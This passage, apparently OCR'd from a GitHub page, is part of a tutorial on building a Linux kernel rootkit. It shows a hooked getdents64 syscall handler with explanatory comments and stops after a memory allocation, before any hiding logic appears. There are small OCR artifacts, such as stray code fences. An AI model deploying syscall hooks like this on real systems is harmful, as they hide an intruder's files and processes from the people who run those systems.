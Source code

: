                    // =============================================================================

                   #include <linux/dirent.h>	/* struct dirent refers to directory entry. */

                    struct linux_dirent {
                            unsigned long   d_ino;		/* inode number */
                            unsigned long   d_off;		/* offset to the next dirent */
                            unsigned short  d_reclen;	/* length of this record */
                            char            d_name[1];	/* filename */
                    };

                   static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs)
                   {
                      /* Dependent registers:
                       * rax: contains syscall ids = 0xd9
                       * rdi: which contains the file descriptor = unsigned int fd
                       * rsi: which contains the passed arguments = struct linux_dirent64 __user *dirent; "__user" => this pointer resides in user space
                       * rdx: length of the passed argument(or string) = unsigned int count
                       */

	                    // Storing file descriptor 
	                    int fd = (int) pt_regs->di;

	                    /* User space related variable
                       * Storing the name of the directory passed from user space via "si" register
                       */
	                    struct linux_dirent *dirent = (struct linux_dirent *) pt_regs->si;

	                    int ret = orig_getdents64(pt_regs), err;
                        ...
                   ```
                   linux/slab.h: Will be used to allocate memories in ram for directory entries.
                   linux/fdtable.h: For accessing file table structure.
                   linux/proc_ns.h: For using `PROC_ROOT_INO`. I will explain it, when the time comes.

                   Now to the next part:
                   ```c
                    ...
                   // kernel space related variables
                   unsigned short proc = 0;
                   unsigned long offset = 0; 
                   struct linux_dirent64 *dir, *kdirent, *prev = NULL;

                   //For storing the directory inode value
                   struct inode *d_inode;

                   if (ret <= 0)
                          return ret;

                   /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L680
                   * 
                   * kzalloc - allocate memory. The memory is set to zero.
                   * @size: how many bytes of memory are required.
                   * @flags: the type of memory to allocate (see kmalloc).
                   *
                   * static inline void *kzalloc(size_t size, gfp_t flags)
                   */
                   /* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/slab.h#L538
                   *
                   * Below is a brief outline of the most useful GFP flags
                   * %GFP_KERNEL
                   *      Allocate normal kernel ram. May sleep.
                   */
                   kdirent = kzalloc(ret, GFP_KERNEL);
